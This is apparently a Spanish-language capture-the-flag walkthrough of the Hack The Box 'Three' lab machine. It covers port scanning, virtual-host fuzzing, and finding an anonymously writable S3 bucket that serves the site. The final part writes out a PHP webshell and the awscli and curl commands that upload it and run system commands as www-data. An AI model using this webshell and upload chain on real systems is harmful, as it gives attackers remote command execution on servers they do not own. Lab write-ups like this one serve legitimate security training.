

# Máquina Three

#### OS: Linux
#### Tier: Starting Point
#### Release date: 3/8/2022
#### IP de ejemplo: 10.129.121.185

## Reconocimiento
comenzamos realizando un escaneo de puertos por tcp con `nmap`:
```
sudo nmap -sS -p- --open --min-rate 5000 -vvv -Pn -n 10.129.121.185
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
vemos dos puertos abiertos: 22/SSH y 80/HTTP.
Vamos a lanzar los scripts básicos de nmap con el argumento -sC y tratemos de detectar la versión para cada servicio con -sV para tratar de identificar mejor ante lo que nos enfrentamos
```
nmap -sCV -p22,80 -T4 10.129.121.185
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
es escaneo exhaustivo no nos reporta mucha más información. Vamos a lanzar `whatweb` a la página del puerto 80 para identificar las tecnologías con la que está montada

```
❯ whatweb 10.129.121.185
http://10.129.121.185 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], Email[mail@thetoppers.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.121.185], Script, Title[The Toppers]
```
vemos un email con un dominio: `mail@thetoppers.htb`. Añadámoslo al /etc/hosts para poder hacer un escaneo de subdominios
```
sudo nano /etc/hosts

10.129.121.185 thetoppers.htb
```

echemos un ojo a la página


es una página estática, sin directorios aparentes. Ya que tenemos un dominio, vamos a realizar fuzzing de subdominios, también llamado virtual host fuzzing. En este caso usaremos Ffuf, aunque podríamos usar Gobuster o herramientas similares con el mismo resultado. 

```
❯ ffuf -c -ic -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://thetoppers.htb -H 'Host: FUZZ.thetoppers.htb'
```





Tras el fuzzing de virtual hosts aparece s3.thetoppers.htb. 
El servicio responde a la API de S3: es almacenamiento de objetos, un modelo donde los ficheros ("objetos") viven dentro de contenedores ("buckets") y se gestionan por HTTP en lugar de por un sistema de ficheros. 

Para interactuar con él usamos awscli, apuntando con --endpoint al host loca. Como el bucket admite acceso anónimo, basta con claves de relleno (el servidor no valida la firma), aunque --no-sign-request sería más correcto:
```
❯ aws configure   # Access Key / Secret Key: test / test, región us-east-1

❯ aws s3 --endpoint=http://s3.thetoppers.htb ls --no-sign-request
```

Listar los buckets devuelve thetoppers.htb, y listar su contenido confirma que el bucket es de lectura y escritura anónimas: ahí está el código de la web (index.php, images/, .htaccess). Si además el DocumentRoot de Apache apunta al bucket, cualquier objeto que subamos se sirve como fichero de la web. Es decir, un bucket público escribible sobre el docroot equivale a subida arbitraria de ficheros.

Subimos una webshell PHP y la servimos desde la raíz:

```
❯ echo '<?php system($_GET["w1s4"]); ?>' > shell.php

❯ aws s3 --endpoint=http://s3.thetoppers.htb cp shell.php s3://thetoppers.htb/pwned.php

❯ curl 'http://thetoppers.htb/pwned.php?w1s4=id'
```

La respuesta devuelve uid=33(www-data), confirmando ejecución remota de comandos en el contexto del usuario del servidor web. Desde ahí leemos la flag en /var/www/flag.txt.
